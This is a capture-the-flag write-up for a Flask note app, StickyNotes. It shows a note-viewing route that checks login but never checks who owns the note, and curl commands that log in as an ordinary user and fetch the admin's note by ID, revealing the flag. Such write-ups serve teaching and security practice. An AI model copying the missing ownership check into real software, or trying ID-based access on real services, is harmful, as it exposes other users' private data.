


## Recon

StickyNotes asks for a username and then presents a conventional note list. Notes are opened by numeric ID, so the useful question is not whether we can become `admin`, but whether the server checks ownership when one of those URLs is requested.



The supplied Flask source shows that note 1 belongs to `admin`, has the title `Flag`, and contains the secret. Registering the username `admin` is forbidden, while the session secret is random on each boot. We set aside impersonation and cookie forging and check object authorization instead.

The list and detail views apply different checks. The list filters notes by `owner`, but the detail route only tests whether a session exists:

```python
@app.route("/note/<int:note_id>")
def view_note(note_id):
    if "user" not in session:
        return redirect("/")
    note = notes.get(note_id)
    if not note:
        abort(404)
    return render_template_string(VIEW, note=note)
```

There is no comparison between `note["owner"]` and `session["user"]`. That makes the numeric reference an insecure direct object reference (IDOR): being logged in is treated as permission to read every note.

## Flag capture

We log in as an ordinary user and save the resulting Flask cookie:

```bash
$ curl -s -c cookies.txt -L -d "username=guest_solving_1" https://stickynotes-web.wolvctf-2026.kctf.cloud/
<h1>guest_solving_1's notes</h1>
<ul>
  <li>No notes yet.</li>
</ul>
```

```bash
$ cat cookies.txt
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

#HttpOnly_stickynotes-web.wolvctf-2026.kctf.cloud       FALSE   /       FALSE   0   session  eyJ1c2VyIjoiZ3Vlc3Rfc29sdmluZ18xIn0.awNT5g.upB7mWh9bs_zOSDcWH_kjyPLYBI
```

Using that ordinary session, we request `/note/1` and receive the admin-owned note:



```text
wctf{idor_is_not_a_real_lock}
```